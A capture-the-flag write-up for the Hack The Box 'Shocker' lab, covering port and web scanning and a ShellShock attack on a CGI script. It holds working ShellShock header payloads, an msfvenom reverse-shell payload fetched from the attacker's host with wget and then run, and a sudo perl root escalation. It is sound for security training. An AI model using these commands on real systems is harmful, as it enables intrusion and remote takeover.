





# [Shocker](https://app.hackthebox.eu/machines/108)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.56 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.56 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.56
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.56
```

The TCP quick scan returns the following:



Start the following web scanner:

```bash
nikto -h http://10.10.10.56/ -C all --maxtime=120s --output=nikto.txt
```


Browse to the site manually:

```bash
firefox http://10.10.10.56/
```


Site looks custom. Start a directroy scanner looking for `php` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.misc.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/ &
```

Looking at the HTML source does not show anything interesting:



The web directory scanner does not show anything interesting... The Apache version of 2.4.18 does not have any helpful exploits either... The full `nmap` scan returns another open port:



SSH is not helpful unless a username is known for a possible bruteforce... Maybe the target hostname of `shocker` is a hint at the ShellShock vulnerability?

- https://www.exploit-db.com/docs/48112

> GNU Bash versions 1.14 through 4.3 contain a flaw that processes  commands placed after function definitions in the added environment  variable, allowing remote attackers to execute arbitrary code via a  crafted environment which enables network-based exploitation. Critical instances where the vulnerability may be exposed include: 
>
> - Apache HTTP Server using mod_cgi or mod_cgid scripts either written in bash,  or spawn GNU Bash subshells, or on any system where the /bin/sh interface is implemented using GNU Bash.
> - Override or Bypass  ForceCommand feature in OpenSSH sshd and limited protection for some Git and Subversion deployments used to restrict shells and allows arbitrary command execution capabilities. This data path is vulnerable on systems where the /bin/sh interface is implemented using GNU Bash.
> - Allow arbitrary commands to run on a DHCP client machine

Try looking for any script files in `cgi-bin`:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.cgi.txt -x php,cgi,sh,py,rb,pl \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/cgi-bin/ &
```

And this returns an interesting value:

```
/user.sh (Status: 200)
```

Try connecting:

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```


Looks like some script is running. Try injecting a random command using ShellShock with an HTTP header:

```bash
# listen to catch the ping
sudo tcpdump -i tun0 icmp
# see if the target will execute the ping
curl -v http://10.10.10.56/cgi-bin/user.sh -H 'bubba: () { :;}; /bin/ping -c 1 10.10.14.25'
```

And this does return a ping from the target! Use this to get a shell on the target:

```bash
# generate and host payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# upload payload to target
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /usr/bin/wget -O /tmp/bubba.elf http://10.10.14.25/bubba.elf"
# make payload executable
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /bin/chmod +x /tmp/bubba.elf"
# execute payload
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /tmp/bubba.elf &"  
```

And this gets a shell with `user.txt`:


After connecting, the user `shelly` has an interesting Sudo permission:



This can be used to get a shell as `root` easily:

- https://gtfobins.github.io/gtfobins/perl/

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```



